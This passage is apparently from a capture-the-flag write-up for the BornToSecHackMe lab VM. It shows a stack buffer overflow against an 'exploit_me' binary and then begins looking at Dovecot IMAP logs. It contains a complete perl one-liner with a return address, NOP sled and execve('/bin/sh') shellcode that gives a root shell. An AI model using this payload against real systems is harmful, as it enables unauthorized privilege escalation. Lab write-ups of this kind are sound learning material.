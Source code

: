 I had it work by slightly modifying my command and by adding a different shellcode, found [here](https://pointerless.wordpress.com/2012/02/26/strcpy-security-exploit-how-to-easily-buffer-overflow).

For a start, I made the program crash and ran the `dmesg` command to find the address of the ESP:
```shell
zaz@BornToSecHackMe:~$ dmesg | tail -1
[21309.218795] exploit_me[18468]: segfault at 46b0c031 ip 46b0c031 sp bffff6b0 error 14
zaz@BornToSecHackMe:~$
```
![[Pasted image 20240425154932.png]]
And then I smashed it:
```shell
zaz@BornToSecHackMe:~$ dmesg | tail -1
[21309.218795] exploit_me[18468]: segfault at 46b0c031 ip 46b0c031 sp bffff6b0 error 14
zaz@BornToSecHackMe:~$ ./exploit_me `perl -e 'print "A"x140 . "\xb0\xf6\xff\xbf" . "\x90"x35 . "\x31\xC0\xB0\x46\x31\xDB\x31\xC9\xCD\x80\xEB\x16\x5B\x31\xC0\x88\x43\x07\x89\x5B\x08\x89\x43\x0C\xB0\x0B\x8D\x4B\x08\x8D\x53\x0C\xCD\x80\xE8\xE5\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68"'`
```
![[Pasted image 20240425153034.png]]

And I'm root!




### Cutting through IMAP

In the home directory of zaz, in a folder named `mail/.imap/` we find some [Dovecot](https://www.dovecot.org)[logs](https://doc.dovecot.org/admin_manual/logging) with what resembles to an error message (the [Internet Message Access Protocol](https://www.cloudflare.com/learning/email-security/what-is-imap) is a protocol allowing access to an e-mail account, while [Simple Mail Transfer Protocol](https://www.cloudflare.com/learning/email-security/what-is-smtp) is a technical standard for transmitting electronic mail over a network):
```shell
zaz@BornToSecHackMe:~/mail/.imap$ ls -la
total 1
drwxr-x--- 5 zaz zaz  99 Oct  8  2015 .
drwxr-x--- 3 zaz zaz 107 Oct  8  2015 ..
-rwxr-x--- 1 zaz zaz  72 Oct  8  2015 dovecot.mailbox.log
drwxr-x--- 2 zaz zaz  40 Oct  8  2015 INBOX.Drafts
drwxr-x--- 2 zaz zaz  40 Oct  8  2015 INBOX.Sent
drwxr-x--- 2 zaz zaz  40 Oct  8  2015 INBOX.Trash
zaz@BornToSecHackMe:~/mail/.imap$ cat INBOX.Drafts/dovecot.index.log
(��V��V����@���mbox���� ��V�'��V�Y9�K|���� ��V���� @�zaz@BornToSecHackMe:~/mail/.imap$ pwd
/home/zaz/mail/.imap
zaz@BornToSecHackMe:~/mail/.imap$ cat dovecot.mailbox.log
�v�}<~�q��~�&V�
9�oh�P`V�!�RCN�j�6i��0V�zaz@BornToSecHackMe:~/mail/.imap$
```

Something is going on here... Let's investigate.

To read the logs I need the command [`doveadm log`](https://doc.dovecot.org/3.0/man/doveadm-log.1), the utility `doveadm` being of course installed in the host machine:
```shell
zaz@BornToSecHackMe:~/mail/.imap$ doveadm
usage: doveadm [-Dv] [-f <formatter>] <command> [<args>]

  altmove      [-u <user>|-A] [-S <socket_path>] [-r] <search query>
  auth         [-a <auth socket path>] [-x <auth info>] <user> [<password>]
  config       [doveconf parameters]
  director     add|dump|flush|map|move|remove|ring|status
  dump         [-t <type>] <path>
  expunge      [-u <user>|-A] [-S <socket_path>] <search query>
  fetch        [-u <user>|-A] [-S <socket_path>] <fields> <search query>
  force-resync [-u <user>|-A] [-S <socket_path>] <mailbox>
  help         <cmd>
```